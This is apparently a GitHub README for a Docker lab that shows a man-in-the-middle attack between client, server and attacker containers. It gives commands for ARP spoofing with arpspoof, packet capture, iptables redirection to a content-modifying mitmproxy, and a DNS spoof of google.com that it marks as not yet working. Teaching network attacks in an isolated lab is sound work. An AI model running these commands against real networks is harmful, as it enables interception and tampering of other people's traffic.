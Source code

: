 # Man in the Middle Attack Demo using Docker

- Adapted from: [https://github.com/kientuong114/docker-mitm/tree/main](https://github.com/kientuong114/docker-mitm/tree/main)

The tools used are [mitmproxy](http://mitmproxy.org), [arpspoof](https://www.monkey.org/~dugsong/dsniff/) and [Docker](http://www.docker.com)

## Setup

There are 3 containers, Bob (Server), Alice (Client) and Eve (Attacker).

- **Bob**: is hosting an http server, serving the files contained in `server_files`
- **Alice**: is a container with Firefox running on it. To connect to firefox from the host, visit `http://localhost:5800`.
- **Eve**: is a container meant to be used via bash. To run commands, just run `docker exec -it mitm_eve /bin/bash`. This container has the `attacker_files` folder mounted on the container as `/eve`

The three containers are connected together with a docker bridge network called `mitm`.
Firefox didn't work when networks configuration was provided.

## How to run the demo

1. Install Docker, docker-compose, then run `docker-compose up -d`
2. Connect to Alice's Firefox instance and visit `http://bob/`. This should show the actual website served by Bob
3. You may also connect to alice via command line (`docker exec -it alice sh`) and see which MAC address corresponds to Bob's IP address
4. Open 2 instances of bash on Eve's container (or, equivalently, install and use tmux with two splits) (`docker exec -it eve bash`) and run the `dig` command to discover the IPs of Alice and Bob:

```bash
ifconfig eth0 promisc # enable promiscuous mode
sysctl -w net.ipv4.ip_forward=1 # enable IP forwarding
arp -n
ip -s -s neigh flush all # clear ARP cache
apt update && apt install -y dnsutils nmap
nmap -sn 172.18.0.0/24 # discover IPs in the network using ping scan
dig alice
dig bob
ping -c 1 alice
ping -c 1 bob
arp -n
```

5. With this information, now run arspoof twice, once for each bash instance.

In the attacker's Terminal:

```bash
arpspoof -t <alice_ip> -r <bob_ip>
```

Also you could explictly spoof two targets on two Terminals:

```bash
arpspoof -t <alice_ip> <bob_ip>
arpspoof -t <bob_ip> <alice_ip>
```

Verify in Alice's `bash` Terminal that `ip neighbor or arp -n` shows that Bob's IP is now associated to Eve's MAC address, meaning that the ARP spoofing was successful.

### Using netcat and tcpdump to see the traffic

- In Eve/attacker container, run `tcpdump -i eth0 -w mitm.pcap` to capture all the traffic in a pcap file
- In Alice's container, run `nc -l -p 1234 > received_file` to listen on port 1234 and write everything received to a file
- In Bob/server container, run `echo "Hello from Bob" | nc <alice_ip> 1234`
- In Alice/client container, check the contents of `received_file` to see the message from Bob
- In Eve/attacker container, stop tcpdump and open `mitm.pcap` with Wireshark/tcpdump to see the traffic

```bash
tcpdump -r mitm.pcap | grep "Bob"
```

- You should see the message from Bob in cleartext

### Using mitmproxy to modify the traffic

1. From host browser, go to http://localhost:5800 to connect to Alice's Firefox instance. From the internal browser Alice can use browser normally.
2. Now run the `add_iptables_rule.sh` script in the `eve` folder. This will add a rule to `iptables` to forward every packet with destination port 80 to the proxy
3. You may verify that Alice's browser will give an error when reloading the page. This is because Eve is not blocking the packets in iptables and forwarding them to the proxy. Since the proxy is not active yet, the packets are simply dropped.
4. activate the proxy in passive mode:

```bash
mitmproxy -m transparent
```

5. Reload the browser page: the legit page will show again, but mitmproxy will show that the request passed through Eve
6. shut down the proxy and activate it again, this time with the script that modifies the contents of the page:

```bash
mitmproxy -m transparent -s proxy.py
```

7. Reload the browser page: the attacker has changed the contents of the website.
8. To shut down everything use the `del_iptables_rul.sh` script in the `eve` folder to remove the iptables rule and turn off the two arpspoof instances

### Note

- If the alice's browser shows legit content instead of the modified one, make sure to clear all the browser cookies, cache and everything from Privacy & Security page of both external (host) and docker (alice) browsers and reload the page on alice's browser.

## DNS Spoof - Not Working YET

1. Connect to client's firefox browser from system. Open browser on system and go to http://localhost:5800

   - go to google.com from client's firefox and make sure it's a legit domain

2. Create fake DNS hosts file on the attacker's container

   - use server's ip for demo

   ```bash
   dig server
   echo -e '<fake_server_ip>\twww.google.com' > hosts
   dnsspoof -i eth0 -f hosts
   ```

3. Run arpspoof on gateway (usually: _._.0.1) and the client/victim from attacker's machine

   - Connect to the attacker's Terminal, find gateway ip and run aprpsoof

   ```bash
   docker exec -it eve /bin/bash
   arp -n
   dig client
   arpspoof -i eth0 -t <gateway_ip ending with .1> -r <client_ip>
   ```

4. Browse google.com from client firefox again
